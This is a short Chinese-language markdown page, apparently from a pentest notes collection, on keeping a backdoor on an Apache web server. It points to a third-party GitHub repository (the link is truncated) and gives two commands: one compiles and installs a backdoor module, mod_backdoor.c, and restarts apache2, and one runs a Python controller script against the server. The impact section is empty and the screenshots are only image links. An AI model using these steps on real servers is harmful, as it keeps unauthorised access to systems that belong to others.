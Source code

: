 ```yaml
---
title: "Apache后门维持"
id: zhfly2810
---
```


# Apache后门维持

## 一、漏洞简介

通过运行第三方脚本，实现维持后门的方法

## 二、漏洞影响

## 三、复现过程

https://github.com/ianxtianxt/apache-

### 1、上传 mod_backdoor.c到服务器，并执行命令

```
apxs -i -a -c mod_backdoor.c && service apache2 restart 
```

![image](../img/aa7c71fb4c7577267dfc94626d3280d5.png)

### 2、控制端执行方法

```
python exploit.py 127.0.0.1 80 
```

![image](../img/1cc07c0b5bf4f77114ea83a55e6b005c.png)